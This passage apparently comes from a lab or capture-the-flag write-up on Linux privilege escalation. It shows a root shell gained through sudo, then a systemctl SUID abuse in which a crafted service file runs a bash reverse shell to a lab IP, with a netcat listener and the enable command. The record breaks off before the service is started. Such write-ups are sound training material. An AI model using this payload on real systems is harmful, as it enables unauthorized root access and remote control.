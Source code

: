 And running a quick `sudo bash` gets us a root shell:

```
localuser@ip-10-50-153-253:~$ sudo bash
sudo: unable to resolve host ip-10-50-153-253
root@ip-10-50-153-253:~# whoami
root
```

<br>

---

<br>

### #5 - systemctl SUID

The permissions on **/bin/systemctl** show us that the SUID bit is set:

`ls -al /bin/systemctl`

```
-rwsr-xr-x 1 root root 663944 Apr  2  2021 /bin/systemctl
```

I find a post online that explains how you can create a service which will connect back to your home machine and since systemctl starts the service as root you get a root shell.

I create the following file: **/tmp/test.service**

```
[Unit]
Description=privilege escalation using SUID systemctl

[Service]  
Type=simple
User=root  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.50.130.229/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Note: you'll need to change the IP address under ExecStart to your own systems IP.

I start a netcat listener up on my system with `nc -nvlp 4444`:

```
listening on [any] 4444 ...
```

I then enable the service with the following command:

`/bin/systemctl enable /tmp/test.service`

```
Created symlink from /etc/systemd/system/multi-user.target.wants/test.service to /tmp/test.service.
Created symlink from /etc/systemd/system/test.service to /tmp/test.service.
```
